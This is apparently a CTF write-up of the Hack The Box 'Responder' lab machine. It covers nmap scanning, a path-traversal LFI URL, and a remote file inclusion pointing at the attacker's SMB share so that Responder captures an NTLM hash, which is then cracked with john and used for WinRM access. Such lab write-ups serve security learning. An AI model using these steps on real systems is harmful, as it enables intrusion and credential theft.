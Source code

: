 ```yaml
---
title: HTB Responder
date: 2022-08-04 01:55:00 +0800
categories: [HTB, Starting Point]
tags: [SAMBA, Apache, WinRM, Enumeration]
pin: false
---
```


![responder-htb](https://www.hackthebox.com/storage/avatars/0348ed41851064f497d155c2a6af359a.png)

In this machine we will experiment with SMB relay attacks using a remote file inclusion in a website and connecting through Windows remote management system.

## Scanning and enumeration

Now it's time to start the active scanning.

As always, we define our TARGET and hosts file of our machine to facilitate the process.

```console
TARGET=10.129.5.42
echo "10.129.5.42 responder.htb" | sudo tee -a /etc/hosts
```

We launch a single `TCMP` probe to check ping.

```console
ping -c 1 $TARGET		# => Ping is working
```

We can see that it's a Windows system.

```console
PING 10.129.5.42 (10.129.5.42) 56(84) bytes of data.
64 bytes from 10.129.5.42: icmp_seq=1 ttl=127 time=55.0 ms

--- 10.129.5.42 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 54.962/54.962/54.962/0.000 ms
```

### NMAP

To scan the `target` to find open ports and possible vulnerabilities we use `nmap`.

First, simple `TCP` scan without `DNS` resolution and ping discovery, to all the ports and with the version detection. (I applied here `--min-rate` as the scan was very slow and we don't care about HTB machines...)

```console
nmap -n -Pn -sV -p- --min-rate 5000 $TARGET -vvv -oG allPorts
```

We can see that it has the following ports open:

```console
PORT     STATE SERVICE    REASON  VERSION
80/tcp   open  http       syn-ack Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
5985/tcp open  http       syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
7680/tcp open  pando-pub? syn-ack
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

We also start a UDP check.

```console
sudo nmap -n -Pn -sVC -sU -p- --min-rate 5000 $TARGET -vvv -oG allPortsUDP
```

Nothing here of interest.

We pass the scripts.

```console
nmap -n -Pn -sVC -oN targeted -vvv -p80,5985,7680 $TARGET
```


### Website in 80

```console
whatweb http://responder.htb
http://responder.htb [200 OK] Apache[2.4.52], Country[RESERVED][ZZ], HTTPServer[Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1], IP[10.129.5.42], Meta-Refresh-Redirect[http://unika.htb/], OpenSSL[1.1.1m], PHP[8.1.1], X-Powered-By[PHP/8.1.1]
ERROR Opening: http://unika.htb/ - no address for unika.htb

```

We see that it is redirecting to _<http://unika.htb>_ which we might need to also include in the hosts file after inspecting.

```console
echo "10.129.5.42 unika.htb" | sudo tee -a /etc/hosts
```

![unika-htb](/assets/img/posts/unika-htb.png)

We can inspect the source code of the site.

By inspecting the site we can see that we have a language selector that is loading the language file using a `page` parameter.

We can try to see if we are capable of launching a `LFI`.

_<http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts>_

It works. If we see an error message from php include, it can also provide information that the server is vulnerable to file inclusion. In this case we are using a local file inclusion, the idea is to link a remote file inclusion with a Samba relay attack.

We will start `Responder.py` that in kali is located in `/usr/share/responder`. The interface used is the `VPN` tunnel from `HTB`. 

```console
sudo Responder.py -I tun0
```

Then, we will call in the browser the remote file inclusion asking for a file in our server.

_<http://unika.htb/index.php?page=//10.10.14.221/hello>_

We will see in the responder that we intercepted the NTLM hash from the user. We just need to crack it with `john` and see if the user is using a common password.

```console
john -w=/usr/share/wordlists/rockyou.txt --format=netntlmv2 hash.txt
```

Please note that we put `-w*=*/usr/share`, it's very important to include the `=`. Sometimes we are use to put just the flag and we see strange errors from `john` about the `UTF-8`.

## Gaining access

Now that we have the password we are able to start a session in the PC. You can use `evil-winrm` and see the flag.